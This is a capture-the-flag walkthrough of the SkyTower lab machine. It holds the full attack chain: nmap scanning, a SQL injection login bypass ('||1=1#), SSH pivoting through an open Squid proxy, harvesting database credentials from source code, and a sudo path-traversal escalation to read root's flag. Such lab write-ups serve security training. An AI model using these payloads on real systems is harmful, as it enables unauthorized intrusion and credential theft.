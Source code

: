root@kali ~# nmap -sS -A -T4 -p- 10.0.0.32

PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh                                                                                     
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))                                               
|_http-title: Site doesn't have a title (text/html).                                                      
|_http-server-header: Apache/2.2.22 (Debian)                                                              
3128/tcp open     http-proxy Squid http proxy 3.1.20                                                      
|_http-title: ERROR: The requested URL could not be retrieved                                             
| http-open-proxy: Potentially OPEN proxy.                                                                
|_Methods supported: GET HEAD                                                                             
|_http-server-header: squid/3.1.20 

After performing a nmap scan we see we have 2 open services and one filtered.
My guess is we are going to get credintails from the site on HTTP and redirect our login to ssh from the proxyserver.

root@kali ~/D/C/SkyTower [255]# dirsearch -u http://10.0.0.32

Brute forcing the directories didn't anything. Going to http://10.0.0.32 we need to login with an email and password. There are no comments we can find with dev tools. Maybe a sql injection works? Entering ' in the login iformation we have a sql syntax error.
Trying 'or 1=1# doesn't seem to work, by what the error displayed seems that "or" is being ignored, let's try using "||" instead of "or"

sql injection ---> '||1=1# 

And it works, we have the credintals for the user "john"

john:hereisjohn

Now we can connet via ssh. Since ssh is filtered (Filtered means that a firewall, filter, or other network obstacle is blocking the port) only the proxy server is allowed login access to the machine, so let's use proxychains and the proxy to our list.
Going to /etc/proxychains.conf we can add "http 10.0.0.32 3128" to our proxy list.

root@kali ~/D/C/SkyTower# proxychains ssh john@10.0.0.32
[proxychains] Dynamic chain  ...  10.0.0.32:3128  ...  10.0.0.32:22  ...  OK
john@10.0.0.32's password: 

After entering the password the connection is closed and we are logged out, we can try opening a new shell once we are logged in.

root@kali ~/D/C/SkyTower# proxychains ssh john@10.0.0.32 /bin/sh
[proxychains] Dynamic chain  ...  10.0.0.32:3128  ...  10.0.0.32:22  ...  OK
john@10.0.0.32's password: 
whoami
john

I searched on google and found that the .bashrc and .bash_logout files are responsible for actions on login, so we can delete them and see if we can login noramally.

root@kali ~/D/C/SkyTower# proxychains ssh john@10.0.0.32 rm .bashrc .bash_logout

root@kali ~/D/C/SkyTower [1]# proxychains ssh john@10.0.0.32 
[proxychains] Dynamic chain  ...  10.0.0.32:3128  ...  10.0.0.32:22  ...  OK
john@10.0.0.32's password: 

john@SkyTower:~$ 

Reading the /etc/passwd file we find 2 more users on the machine.

root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john,,,:/home/john:/bin/bash
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash

I used "sudo -l" to see if we have any sudo permissions but we don't, there are also no SUID files we can exploit.
Let's try enumerating mysql.

john@SkyTower:/home$ mysql
ERROR 1045 (28000): Access denied for user 'john'@'localhost' (using password: NO)

Going to /var/www we can read the login.php page and find these creditenls:

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

john@SkyTower:~$ mysql -u root -p
Enter password: 
mysql> 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+

mysql> use SkyTech
Database changed

mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+

Swithicing to the sara user and looking at our sudo permissions.

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

We can use the "cat" and "ls" command as root only from the /accounts directory.

sara@SkyTower:~$ sudo ls /accounts/../root
[sudo] password for sara:
flag.txt

sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower

Nice! we now have found the flag.txt and the password for the root user, we can now switch to the root user to finish the machine.

